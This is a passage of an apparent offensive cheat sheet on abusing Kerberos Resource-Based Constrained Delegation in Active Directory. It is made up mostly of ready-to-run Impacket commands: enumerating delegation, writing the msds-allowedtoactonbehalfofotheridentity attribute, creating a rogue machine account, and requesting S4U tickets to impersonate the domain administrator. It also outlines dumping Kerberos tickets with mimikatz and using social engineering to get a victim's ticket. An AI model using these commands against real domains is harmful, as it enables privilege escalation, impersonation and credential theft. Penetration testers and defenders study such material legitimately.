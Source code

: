```bash
findDelegation.py -dc-ip <DC_IP> domain.local/user1:password

#For another domain across trust
findDelegation.py -target-domain <target_domain> domain.local/user1:password

#Check the attribute on an account
rbcd.py -action read -delegate-to ServiceB$ domain.local/user1:password
```

#### Standard RBCD

The attaker has compromised ServiceA and want to compromise ServiceB. Additionnally he has sufficient rights to configure `msds-allowedtoactonbehalfofotheridentity` on ServiceB.

```bash
#Add RBCD from ServiceA to ServiceB
rbcd.py -action write -delegate-from ServiceA$ -delegate-to ServiceB$ domain.local/user1:password

#Verify property
rbcd.py -action read -delegate-to ServiceB$ domain.local/user1:password

#Get ServiceA TGT and then S4U
getST.py -spn 'cifs/serviceB.domain.local' -impersonate administrator -hashes ':<ServiceA_NThash>' -dc-ip <DC_IP> domain.local/ServiceA$
export KRB5CCNAME=./Administrator.ccache
```

#### With machine account creation

* Domain users can create some machines, `ms-ds-machineaccountquota` must not being to 0
* Add a fake machine account in the domain
* Add it to the `msds-allowedtoactonbehalfofotheridentity` attribute of the target machine

```bash
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -domain-netbios domain.local 'domain.local/user1:password'
rbcd.py -action write -delegate-from ControlledComputer$ -delegate-to ServiceB$ 'domain.local/user1:password'
```

* Use the **S4USelf** function with the fake machine (on an arbitrary SPN) to create a forwardable ticket for a wanted user (not **protected**)
* Use the **S4UProxy** function to obtain a TGS for the impersonated user for the wanted service on the target machine;

```bash
getST.py -spn 'cifs/serviceB.domain.local' -impersonate administrator -dc-ip <DC_IP> domain.local/ControlledComputer$:ComputerPassword
export KRB5CCNAME=./Administrator.ccache
```

#### Skip S4USelf

* Attacker has compromised Service A, has sufficient ACLs against Service B to configure RBCD, and wants to attack Service B
* By social engineering or any other solution, an interesting victim authenticates to Service A with a TGS
* Attacker dumps the TGS on Service A (`sekurlsa::tickets`)
* Attacker configures RBCD from Service A to Service B as above
* Attacker performs S4UProxy and bypass S4USelf by providing the TGS as evidence
